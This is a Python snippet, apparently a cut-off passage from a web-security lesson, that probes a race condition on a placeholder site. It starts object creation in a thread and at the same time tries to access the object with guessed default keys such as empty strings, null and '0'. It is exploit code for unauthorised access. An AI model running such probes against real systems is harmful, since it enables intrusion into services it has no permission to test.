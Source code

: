        # Object creation data
       create_data = {
           "object_name": "test_object",
           "object_type": "document",
           "description": "Test description"
       }
       
       # Values to test for uninitialized properties
       default_values = [
           "",                   # Empty string
           None,                 # Null
           [],                   # Empty array
           {},                   # Empty object
           0,                    # Zero
           "0",                  # String zero
           "null",               # String null
           "undefined"           # String undefined
       ]
       
       # Test each potential default value
       for value in default_values:
           print(f"Testing default value: {value}")
           
           # Start object creation in a thread
           create_thread = threading.Thread(
               target=create_object,
               args=(session, "https://vulnerable-website.com/objects/create", create_data)
           )
           create_thread.start()
           
           # Attempt to access with potential default value
           access_response = access_object(
               session, 
               "https://vulnerable-website.com/objects/access", 
               {"key": value}
           )
           
           # Wait for creation thread to complete
           create_thread.join()
           
           print(f"Access response with '{value}': {access_response.status_code}")
           print(f"Response body: {access_response.text[:100]}")
           print("-" * 50)
       ```
